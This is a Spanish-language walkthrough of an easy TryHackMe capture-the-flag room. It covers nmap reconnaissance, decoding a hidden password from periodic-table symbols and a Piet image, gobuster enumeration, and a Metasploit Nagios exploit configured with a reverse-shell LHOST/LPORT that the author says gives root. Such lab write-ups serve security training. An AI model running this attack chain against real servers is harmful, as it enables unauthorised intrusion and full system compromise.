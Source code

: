 Bievenidos a otra sala en tryhackme. Otra sala de dificultad facil, en la cual usaremos nmap para escanear puertos abiertos y obtener informacion. Descubriremos mensajes ocultos mediante textos e imagenes con ayuda de un script y herramientas online. Enumeraremos directorios ocultos con gobuster, y nos logearemos dentro de una plataforma con versiones no actuailizadas para luego utilizar metasploit y adentrarnos en el sistema como usuario raiz root.

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (1.4s latency).
Scanned at 2023-07-02 04:44:31 EDT for 47s
Not shown: 60914 closed ports, 4615 filtered ports
Reason: 60914 resets and 4615 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp       syn-ack ttl 63 Postfix smtpd
80/tcp   open  http       syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
389/tcp  open  ldap       syn-ack ttl 63 OpenLDAP 2.2.X - 2.3.X
443/tcp  open  ssl/http   syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
5667/tcp open  tcpwrapped syn-ack ttl 63
Service Info: Host:  ubuntu.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap

```

Nuestro escaneo de nmap nos muestra 6 puertos abiertos. Navegamos primero al servidor web para ver que encontramos. Vemos un mensaje con elementos de la tabla periodica. Parece no tener sentido, pero tenemos que buscar cada numero de cada elemento en el orden en el que estan y podemos notar que ser forma un mensaje con formato DECIMAL. En este script puedes poner los elementos que desees saber su numero en la tabla periodica :

```python
Periodic_table = {
    "H": 1,
    "He": 2,
    "Li": 3,
    "Be": 4,
    "B": 5,
    "C": 6,
    "N": 7,
    "O": 8,
    "F": 9,
    "Ne": 10,
    "Na": 11,
    "Mg": 12,
    "Al": 13,
    "Si": 14,
    "P": 15,
    "S": 16,
    "Cl": 17,
    "Ar": 18,
    "K": 19,
    "Ca": 20,
    "Sc": 21,
    "Ti": 22,
    "V": 23,
    "Cr": 24,
    "Mn": 25,
    "Fe": 26,
    "Ni": 27,
    "Co": 28,
    "Cu": 29,
    "Zn": 30,
    "Ga": 31,
    "Ge": 32,
    "As": 33,
    "Se": 34,
    "Br": 35,
    "Kr": 36,
    "Rb": 37,
    "Sr": 38,
    "Y": 39,
    "Zr": 40,
    "Nb": 41,
    "Mo": 42,
    "Tc": 43,
    "Ru": 44,
    "Rh": 45,
    "Pd": 46,
    "Ag": 47,
    "Cd": 48,
    "In": 49,
    "Sn": 50,
    "Sb": 51,
    "I": 53,
    "Te": 52,
    "Xe": 54,
    "Cs": 55,
    "Ba": 56,
    "La": 57,
    "Ce": 58,
    "Pr": 59,
    "Nd": 60,
    "Pm": 61,
    "Sm": 62,
    "Eu": 63,
    "Gd": 64,
    "Tb": 65,
    "Dy": 66,
    "Ho": 67,
    "Er": 68,
    "Tm": 69,
    "Yb": 70,
    "Lu": 71,
    "Hf": 72,
    "Ta": 73,
    "W": 74,
    "Re": 75,
    "Os": 76,
    "Ir": 77,
    "Pt": 78,
    "Au": 79,
    "Hg": 80,
    "Tl": 81,
    "Pb": 82,
    "Bi": 83,
    "Po": 84,
    "At": 85,
    "Rn": 86,
    "Fr": 87,
    "Ra": 88,
    "Ac": 89,
    "Th": 90,
    "Pa": 91,
    "U": 92,
    "Np": 93,
    "Pu": 94,
    "Am": 95,
    "Cm": 96,
    "Bk": 97,
    "Cf": 98,
    "Es": 99,
    "Fm": 100,
    "Md": 101,
    "No": 102,
    "Lr": 103
}

print("Bienvenido al convertidor de elementos de la tabla periódica")
print("🔬 Ingresa los elementos que desees averiguar su numero 🔬")
print("Por ejemplo: Ag-Hg-Po-Hg-Pt")

elements_input = input("Ingresa los elementos: ")
elements = elements_input.split("-")

number = []

for element in elements:
    if element in Periodic_table:
        number.append(str(Periodic_table[element]))
    else:
        number.append("Elemento desconocido")

number_chain = "-".join(number)
print("La cadena de números correspondiente es:", number_chain)
```

Nos quedaria de la siguiente manera : **47 80 73 51 84 46 80 78 103**

Al pasarlo por cyberchef desde formato decimal, nos muestra una imagen que nos transferiremos a nuestra maquina atacante `wget http://IPTARGET/PI3T.PNg`.
Una imagen Piet es un arte de forma visual que utiliza lenguaje de progamacion esoterico "Piet".

En esta parte tuve varios problemas para descifrar la imagen, pase la imagen de png a ppm y aun asi no pude resolverlo. Tenes que cargar la imagen en formato ppm a esta pagina https://www.bertnase.de/npiet/npiet-execute.php y se te descubre la password. Pero en mi caso no pude hacerlo y consulte a un write-up para descubrirla :**n3p3UQ&9BjLp4$7uhWdY**.

Ya tenemos una password pero no sabemos bien para que sirve.

# Intrusion & Priv.Escalation

Iniciamos una enumeracion a directorios ocultos con la herramienta `gobuster`

```bash
gobuster dir -u http://IPTARGET -w /Path/wordlist
```

Encontramos el directorio /nagios que nos pide unas credenciales para poder logearnos. Tenemos la password pero no sabemos cual es el user. Iniciamos un busqueda por internet sobre esta plataforma nagios tiene por defecto algun tipo de credenciales.

En la busqueda encontramos este fragmento : `The default user ID used to log in to the PurePower Integrated Manager Nagios Core web interface is **nagiosadmin and the password is PASSW0RD (with a zero)**`

Usaremos la password que encontramos anteriormente, ya que la default no va a funcionar.
Una vez ingresada a la plataforma, ya tenemos la version y nosotros como atacantes podemos buscar alguna vulnerabilidad, si es que existe, para poder explotar el servidor web.

En esta sala, voy a utilizar metasploit para hacerlo de una forma mas simple y automatica.
Iniciaremos metasploit y buscaremos la vulnerabilidad con la version que acabamos de encontrar.

```bash
msfconsole
search nagios
```

Una vez encontrado el exploit, que funcione correctamente, procedemos a seleccionarlo y configurar los patrones antes de ejecutarlo de la siguiente forma:

```bash
use exploit/linux/http/nagios_xi_plugins_check_p...

show options # Vemos las opciones que tendremos que modificar

set rhosts   --> IPTARGET 
set password --> n3p3UQ&9BjLp4$7uhWdY
set LHOST    --> LocalHost/tun0
set LPORT    --> LocalPort

exploit
```

Una vez ejecutado, ya nos escalara privilegios automaticamente y seremos usuario raiz root.